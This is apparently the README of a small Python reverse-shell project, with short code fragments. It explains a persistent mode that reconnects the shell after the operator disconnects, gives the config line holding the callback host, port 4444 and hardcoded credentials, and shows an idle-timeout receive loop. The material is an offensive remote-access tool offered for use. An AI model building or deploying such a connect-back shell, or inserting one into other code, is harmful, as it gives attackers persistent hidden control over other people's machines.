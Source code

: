 # python-reverse-shell
simple python reverse shell

# persistent mode
this mode, will be by default enable. this feature will allow the script to connect back after user exit or disconnet from the shell

disable persistent
```
# from this (persistent enable)
lr = {"ht": "127.0.0.1","pt": 4444, "pr": True}; ah = {"ee": False,"ur": "r00t","pd": "t00r"}; sd = "/"

# to this (persistent disable)
lr = {"ht": "127.0.0.1","pt": 4444, "pr": False}; ah = {"ee": False,"ur": "r00t","pd": "t00r"}; sd = "/"

```

# idle mode
for this mode, by default the user has 5 minute to stay idle it will disconnect from user when its more than 5 min

```
# it = idle time
# ut = user time
def __rr(c,b = 2048,rt = 0.2, it = 300, ut = 0):
        ut = time() # set user time
        try:
                c.setblocking(0)
                d = ""
                while True: # running on loop to capture the data
                        r = select.select([c], [], [], rt)
                        if r[0]:
                                d += c.recv(b)
                        else:
                                if it != 0: # if it is 0 mean its disable
                                        if it <= time() - ut: # if it is more than the ut idle, then return False to disconnect the user
                                                return False
                                if len(d) > 0: # check if d has data
                                        c.setblocking(1)
                                        return d
        except socket.error:
                return False
```
